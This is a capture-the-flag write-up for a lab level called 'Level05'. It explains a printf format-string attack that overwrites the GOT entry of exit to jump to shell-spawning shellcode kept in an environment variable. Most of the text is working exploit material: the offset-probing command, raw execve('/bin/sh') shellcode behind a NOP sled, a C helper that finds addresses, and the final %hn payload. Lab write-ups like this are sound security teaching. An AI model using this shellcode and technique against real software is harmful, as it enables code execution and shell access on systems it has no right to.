







# Level05

The program takes out input and transfer it to lowercase. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the `EIP` with an address (like `system("/bin/sh")`) in the stack because it won't execute.

But we can:

- use a shellcode stored in an environmental variable 
- run a string format attack to overwrite `exit`

Let's find the address of `exit`():

The GOT address of `exit` is `0x080497e0`

Let's check our buffer position for the `printf` string format exploit, launching:

`python -c 'print "AAAA"+" %p"*12' | ./level05`

We can see our buffer `aaaa` in the 10th position on the stack as `61616161`

Finally, we should inject shellcode

    export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`

Using a lot of `NOP` instructions before the Shellcode helps us to consistently find it even if the environment address shifts
a bit as `NOP` instruction will only indicate to go to the next one until we find the first "real" instruction.

Then, we'll need to find where this environment variable is stored in memory. For that we can use:

    #include <cstdio>
    #include <cstdlib>
    
    int main(int ac, char** av)
    {
        printf("env address at %p\n", getenv(av[1]));
        return (0);
    }

Compile this program like this: `gcc -m32`

Address is `0xffffd851` in my case. It may be a different!

Unfortunately, `0xffffd851` is too large to pass to `printf` in decimal with a `%d` format (it overflows maxint). 
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each).

Format string attack:

- `exit` GOT address, split into two [4 bytes] parts 
- shellcode address in decimal, split into two [4 bytes] parts 
  - 55377 - 8 bytes (of characters already written) = 55369
  - 65535 - 55377 bytes (of characters already written) = 10158
- `printf` formatting arguments:
  - %10$hn for 10th argument, half word/short int [2 bytes]
  - %11$hn for 11th argument, half word/short int [2 bytes]

        (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55369d%10$hn" + "%10158d%11$hn")'; cat) | ./level05]

